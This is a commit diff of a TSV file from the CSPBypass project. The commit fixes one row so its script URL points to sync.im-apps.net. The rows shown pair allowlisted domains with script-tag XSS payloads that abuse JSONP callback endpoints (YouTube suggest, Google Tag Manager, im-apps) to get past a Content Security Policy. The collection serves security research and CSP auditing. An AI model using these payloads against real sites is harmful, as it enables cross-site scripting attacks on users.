

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out.

Commit message:
Fixed sync.im-apps.net

```diff
--- a/data.tsv
+++ b/data.tsv
@@ -79,3 +79,3 @@ storage.googleapis.com	<script src="https://storage.googleapis.com/bypass_csp/xs
 suggestqueries-clients6.youtube.com	<script src="https://suggestqueries-clients6.youtube.com/complete/search?client=youtube&q=$query&callback=alert"></script>	
-sync.im-apps.net	<script src="https:///imid/segment?callback=alert(1)&token=VXoW9wEaCAYxiIkb8Mzm7Q"></script>	renniepak
+sync.im-apps.net	<script src="https://sync.im-apps.net/imid/segment?callback=alert(1)&token=VXoW9wEaCAYxiIkb8Mzm7Q"></script>	renniepak
 tagmanager.google.com	<script src="https://tagmanager.google.com/debug/api/vtinfo?gtm_auth=a-0uanYFkML7e3v7Vmxpwg&env_id=env-8&public_id=GTM-TWMCBFD&templates=&callback=alert"></script>	YoeriVegt
```
